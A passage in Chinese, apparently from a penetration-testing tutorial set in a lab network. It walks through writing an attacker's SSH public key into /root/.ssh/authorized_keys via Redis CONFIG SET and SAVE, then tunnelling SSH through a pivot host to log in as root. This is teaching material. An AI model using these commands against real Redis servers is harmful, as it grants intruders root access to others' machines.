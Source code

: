 ```
127.0.0.1:6379> **CONFIG SET dir /root/.ssh/**
OK 
```

我们将 dbfilename 设置为 authorized_keys。这将确保内容最终写入的路径是 */root/.ssh/authorized_keys*：

```
127.0.0.1:6379> **CONFIG SET dbfilename authorized_keys**
OK 
```

现在我们将使用 SET 设置一个键（k1），后跟公钥。请注意，在公钥字符串的开头和结尾有两个换行符（\n\n），以确保 authorized_keys 文件格式不会被损坏：

```
127.0.0.1:6379> **SET k1 "\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCqfvIYYTDy**
**Dr98DoutM74ThhUb+72vUDdhRl6Y+CKx3BksVTQ7pIWayRdUaUz/LDH2/ijYGTRcf6juv3yZB5V82x**
**PbL/ApvKMFwaxrnipZEPOd4BI7EG32XBy5RhIxZXMoUrxtoiJ9QbeRJh6gw0o85ABJhFCbknhxQR14**
**uiKN7cGaE/XtVBpUiEONczEaUHlJMq6GB/SSIrEXY4iP2p9TUwv0HbljVdE+nOdeKTUINNcnLAbvC6**
**/dHwLJ/NAQ94Ch+eiGdQHauBBeO96JHtDlgYaz1/sq54FTYYJxci4fiDBmXGAG6xf34f9uyy7PugWd**
**sr5O0XR/xRJAcGn2/CGil/wIa09YtpcrkEryO0p+WUg7no3PAuotcC/fgDSFAIZnLFFKUtmWJlXMjX**
**wtOWn9hj61Mk5mT0VlkWopDnVsqXgKfHmWIJolZNdUBW/UHs4nAP+MUOOnNadxlZkKfKdzsaZHhVLM**
**CLoS+IXVKIvMf6tiLuS5LLut6e1Y2wiQmOM= kali@kali\n\n"**
OK 
```

最后，使用 SAVE 命令保存内容：

```
127.0.0.1:6379> **SAVE**
OK 
```

如果你当前在 Kali 中没有设置 SSH 密钥对，请运行 ssh-keygen -t rsa 并按照向导生成一个。公钥将位于 */home/kali/.ssh/id_rsa.pub*。

现在我们将尝试使用私钥 SSH 进入 *c-redis-01* 服务器。我们需要执行一次端口转发，以便通过跳板主机隧道化这个 SSH 流量。我们将在本地监听 2222 端口，并将流量转发到 22 端口：

```
$ **ssh -v -N -L 2222:10.1.0.14:22 backup@172.16.10.13**
```

验证 Kali 上是否有 2222 端口在本地监听：

```
$ **netstat -atunp | grep 2222**
```

现在运行一个 SSH 客户端连接到 10.1.0.14：

```
$ **ssh root@127.0.0.1 -p 2222 -i /home/kali/.ssh/id_rsa**

Linux c-redis-01.acme-infinity-servers.com 6.1.0-kali5-amd64 #1 SMP

`--snip--`
root@c-redis-01:~# 
```

很好！我们通过一些 Redis 技巧成功获得了 *c-redis-01* 的 root SSH 访问权限。
